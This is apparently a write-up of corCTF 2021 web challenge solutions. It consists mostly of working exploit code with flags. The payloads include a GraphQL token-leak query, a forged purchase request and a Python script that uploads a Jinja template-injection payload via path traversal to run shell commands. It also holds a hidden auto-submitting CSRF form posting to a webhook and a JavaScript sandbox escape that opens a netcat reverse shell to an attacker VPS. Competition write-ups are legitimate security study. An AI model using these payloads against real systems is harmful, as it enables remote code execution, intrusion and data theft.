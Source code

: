 ## ====================== corCTF 2021 ======================  

### devme  
  
- Get admin token

```json
{
  "query":"{users{username,token}}"
}  
```
  
- Get flag with admin token  
  
```json  
{
  "query":"{flag (token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}   
```
  
`Flag: corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}`  
  
  
### buyme  
  
My payload:  
  
```text  
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Cookie: user=s%3Aahihihihi.7VJIG%2FI4pce4U516xfQMzQBXOVLTpp%2BzCZqbBPsiW7U
Content-Type: application/json
Content-Length: 79

{
  "flag":"corCTF",
  "user":{
    "flags":[],
    "user":"ahihihihi",
    "money":1e+300
  }
}
```    
  
`Flag: corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}`  
  
### drinkme  
  
Overwrite `decaf.html` to perform SSTI attack, we can add some random characters into file content to make `md5 hash` starts with `decaf`.
My script:  
  
```python3  
import hashlib
import string
import random
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder


url = "https://33509.drinkme.be.ax"
r = requests.Session()

def random_char(y):
       return ''.join(random.choice(string.ascii_letters) for x in range(y))

def get_flag():
	resp = r.get(url + '/decaf')
	print(resp.text)

def gen_payload(template):
	while True:
		data = template + random_char(5)
		hashed = hashlib.md5(data.encode()).hexdigest()[:5]
		if hashed == "decaf":
			return data

def send_payload(payload):
	try:
		multipart_data = MultipartEncoder(
		    fields={
		            'file': ('.html', payload, 'text/plain'),
		            'type': '../templates/', 
		            'submit': 'Draw!',
		           }
		    )
		resp = r.post(url + '/upload', data=multipart_data, headers={'Content-Type':multipart_data.content_type})
	except:
		pass

if __name__ == "__main__":
	template = "{{config.__class__.__init__.__globals__['os'].popen('cat /var/flag').read()}}"
	payload = gen_payload(template)
	print(f"[+] Found payload: {payload}")
	print(f"[+] Sending payload")
	send_payload(payload)
	print(f"[+] Try to get flag")
	get_flag()
```
  
`Flag: corctf{c4ff31n3_is_f0r_th3_we4k}`  
  
### phpme  
  
Admin's cookie set flag `Samesite=Lax`, it will be block the request from `fetch, XMLHTTPRequest` but not `form`, and use `enctype=text/plain` to avoid `urlencode form data`.  
  
My solution  
  
```html
<form id="invisible_form"  enctype="text/plain" action="https://phpme.be.ax/" method="POST" target="_blank">
  <input id="ahihi" name='{"yep":"yep yep yep", "url":"https://webhook.site/279a967d-7c3b-43e9-ab67-abf6fd32ddad","a":"' value='a"}' type="hidden">
</form>
<script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
<script type="text/javascript">
    document.getElementById("invisible_form").submit()
</script>
```  
  
`Flag: corctf{ok_h0pe_y0u_enj0yed_the_1_php_ch4ll_1n_th1s_CTF!!!}`
    
### readme  
  
My solution  
  
```html  
<html>
	<a href="http://www.google.com" name="A" class="nextasdhasd">haahahah</a>
	<a href="http://www.google.com" name="B" class="nexthehe">haadsasdahahah</a>
	<button href="http://www.google.com" name="A" class="next" onclick="function fn(){};var constructorProperty = Object.getOwnPropertyDescriptors(fn.__proto__).constructor;var properties = Object.values(constructorProperty);properties.pop();properties.pop();properties.pop();var Func = properties.map(function (x) {return x.bind(x, 'return this.process.mainModule.constructor._load(`child_process`).execSync(`nc <your-vps-ip> 1234 -e /bin/sh`)')}).pop();(Func())()">hehe</button>
</html>
```
 Setup listen on port 1234 and RCE  
   
`Flag: corctf{but_wh3re_w1ll_i_r3ad_my_n0vels_now??????}`
  
